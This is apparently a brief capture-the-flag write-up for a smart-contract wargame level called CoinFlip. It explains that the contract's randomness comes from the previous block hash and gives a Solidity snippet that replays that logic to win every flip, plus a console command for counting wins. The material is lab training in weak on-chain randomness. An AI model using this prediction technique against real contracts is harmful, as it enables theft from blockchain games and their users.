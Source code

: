 - Understood that the contract depends on previous block hash for randomness

- The value will be accessible before the transaction completes, which means we can replicate the logic and guess correctly

- We can create an exploit contract that repeats the same logic , makes guesses and send the guess to the CoinFlip contract

`
uint256 blockValue = uint256(blockhash(block.number - 1));
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1;
coinFlipContract.flip(side);
`

- We can call the flip() method by waiting 15 seconds each

- We can check how many wins we have accumulated by

`
await contract.consecutiveWins()).toString();
`

-Once we have hit 10 consecutive wins, we can submit the instance
